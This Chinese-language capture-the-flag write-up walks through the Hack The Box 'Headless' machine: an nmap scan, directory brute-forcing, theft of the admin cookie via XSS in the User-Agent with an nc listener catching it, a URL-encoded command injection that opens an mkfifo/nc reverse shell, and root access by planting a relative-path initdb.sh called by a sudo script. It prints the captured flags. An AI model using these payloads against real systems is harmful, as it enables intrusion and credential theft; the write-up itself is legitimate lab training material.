




# 服务
```
┌──(root㉿kali)-[~/htb/Headless]
└─# nmap -sV -Pn -A 10.10.11.8                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-05 02:11 EDT
Nmap scan report for 10.10.11.8
Host is up (0.40s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 900294283dab2274df0ea3b20f2bc617 (ECDSA)
|_  256 2eb90824021b609460b384a99e1a60ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Fri, 05 Jul 2024 06:11:54 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

```

目录
```
┌──(root㉿kali)-[~]
└─# python3 /root/dirsearch/dirsearch.py -u http://10.10.11.8:5000 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10929

Output File: /root/dirsearch/reports/10.10.11.8-5000/_24-07-05_02-19-16.txt

Error Log: /root/dirsearch/logs/errors-24-07-05_02-19-16.log

Target: http://10.10.11.8:5000/

[02:19:17] Starting: 
[02:21:42] 500 -  265B  - /dashboard                                        
[02:23:25] 200 -    2KB - /support   
```

/dashboard 页面报错

```
Unauthorized

The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.

```


cookie:
```
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

这里分两部分
1， ```InVzZXIi ```base64解密是："user"
2，```InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs```这个解不出来


这个应该是用户身份cookie

如果造一个xss会触发waf



这里说会报告会告知管理员

我们的目标是窃取管理员的Cookie

这里选择User-Agent

payload

```

```

同时在kali开启监听
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.33] from (UNKNOWN) [10.10.11.8] 35804
GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1
Host: 10.10.16.33:443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5000/
Origin: http://localhost:5000
Connection: keep-alive


```

窃取到了管理员的cookie

```
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```


换成上面cookie以后可以访问dashboard页面了



可以命令注入



下面payload拿到rev shell
```
date=2023-09-15;rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.21%204242%20%3E%2Ftmp%2Ff
```

user.txt
```
┌──(root㉿kali)-[~/htb/Headless]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.16.21] from (UNKNOWN) [10.10.11.8] 58350
/bin/sh: 0: can't access tty; job control turned off
$ cd ~
$ cat user.txt
81569650e8ba2d54e24e52fb4fe33b59
$ 

```

# 提权

```
dvir@headless:~$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```

syscheck
```
dvir@headless:~$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```

尝试执行
```
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.02, 0.03, 0.00
Database service is not running. Starting it...

```

留意
```
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
```

如果没有在在进程中检测到initdb.sh会以root的身份运行initdb.sh

利用：
```
dvir@headless:~$ echo -e '#!/bin/bash\n/bin/bash' > /home/dvir/initdb.sh
echo -e '#!/bin/bash\n/bin/bash' > /home/dvir/initdb.sh
dvir@headless:~$ chmod +x /home/dvir/initdb.sh
chmod +x /home/dvir/initdb.sh
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.01, 0.00
Database service is not running. Starting it...
id
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cd /root
ls
ls
root.txt
cat root.txt
cat root.txt
59700869b2a471d51ec37140ec2da123

```